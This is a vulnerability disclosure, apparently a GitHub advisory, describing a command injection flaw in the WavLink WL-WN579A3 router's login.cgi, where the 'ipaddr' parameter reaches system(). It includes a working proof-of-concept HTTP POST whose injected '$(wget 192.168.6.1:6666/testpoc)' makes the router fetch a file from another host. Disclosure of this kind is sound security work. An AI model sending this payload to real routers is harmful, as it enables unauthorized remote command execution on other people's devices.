




# WL-WN579A3 Vulnerability

Vendor:WavLink

Product:WL-WN579A3

Vulnerability: Command Injection

Type:Remote Command Execution


## Descriptions

We found an Command Injection vulnerability  in `login.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

In  ftext function,the router compare the `page` parameter.

When the value of `page` is `login`, the function sub_401340 will be called.

<div  align="center"></div>

the value of the `ipaddr` is inserted into `v10` ,and the value of `v10` will be inserted into `v36` and `v36` will be executed by  system()

<div  align="center"></div>
<div  align="center"></div>
<div  align="center"></div>


## Proof of Concept (PoC)

We set `ippaddr` as **%3A%3Affff%3A192.168.6.1$(wget 192.168.6.1:6666/testpoc)** , and the router will excute it,such as:

```http
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 295
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.6.1$(wget 192.168.6.1:6666/testpoc)&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.6.2&key=M17200281&password=58bb36ddbd44590bf17f4d07115beefa&lang_select=en
```

<div  align="center"></div>
